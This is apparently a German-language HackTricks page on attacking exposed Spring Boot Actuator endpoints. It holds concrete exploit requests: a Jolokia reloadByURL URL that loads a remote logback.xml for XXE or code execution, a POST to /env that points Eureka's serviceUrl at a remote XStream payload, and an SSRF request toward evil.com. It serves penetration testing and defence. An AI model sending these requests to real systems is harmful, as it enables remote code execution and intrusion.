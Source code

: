 # Spring Actuators

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Von** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Ausnutzen von Spring Boot Actuators

**Überprüfe den Originalbeitrag von** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Wichtige Punkte:**

* Spring Boot Actuators registrieren Endpunkte wie `/health`, `/trace`, `/beans`, `/env` usw. In den Versionen 1 bis 1.4 sind diese Endpunkte ohne Authentifizierung zugänglich. Ab Version 1.5 sind nur `/health` und `/info` standardmäßig nicht sensibel, aber Entwickler deaktivieren oft diese Sicherheit.
* Bestimmte Actuator-Endpunkte können sensible Daten offenlegen oder schädliche Aktionen ermöglichen:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart` und `/heapdump`.
* In Spring Boot 1.x sind Actuators unter der Root-URL registriert, während sie in 2.x unter dem Basis-Pfad `/actuator/` liegen.

### **Ausnutzungstechniken:**

1. **Remote Code Execution über '/jolokia'**:
* Der `/jolokia` Actuator-Endpunkt exponiert die Jolokia-Bibliothek, die HTTP-Zugriff auf MBeans ermöglicht.
* Die Aktion `reloadByURL` kann ausgenutzt werden, um Logging-Konfigurationen von einer externen URL neu zu laden, was zu blindem XXE oder Remote Code Execution über gestaltete XML-Konfigurationen führen kann.
* Beispiel für eine Exploit-URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Konfigurationsänderung über '/env'**:
* Wenn Spring Cloud-Bibliotheken vorhanden sind, ermöglicht der `/env` Endpunkt die Änderung von Umgebungsvariablen.
* Eigenschaften können manipuliert werden, um Schwachstellen auszunutzen, wie die XStream-Deserialisierungsanfälligkeit im Eureka serviceURL.
* Beispiel für eine Exploit-POST-Anfrage:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Weitere nützliche Einstellungen**:
* Eigenschaften wie `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url` und `spring.datasource.tomcat.max-active` können für verschiedene Exploits manipuliert werden, wie SQL-Injection oder das Ändern von Datenbankverbindungszeichenfolgen.

### **Zusätzliche Informationen:**

* Eine umfassende Liste der Standard-Actuators findest du [hier](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* Der `/env` Endpunkt in Spring Boot 2.x verwendet das JSON-Format zur Modifikation von Eigenschaften, aber das allgemeine Konzept bleibt dasselbe.

### **Verwandte Themen:**

1. **Env + H2 RCE**:
* Details zur Ausnutzung der Kombination von `/env` Endpunkt und H2-Datenbank findest du [hier](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF auf Spring Boot durch falsche Pfadinterpretation**:
* Die Handhabung von Matrixparametern (`;`) in HTTP-Pfaden durch das Spring-Framework kann für Server-Side Request Forgery (SSRF) ausgenutzt werden.
* Beispiel für eine Exploit-Anfrage:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
</details>
{% endhint %}
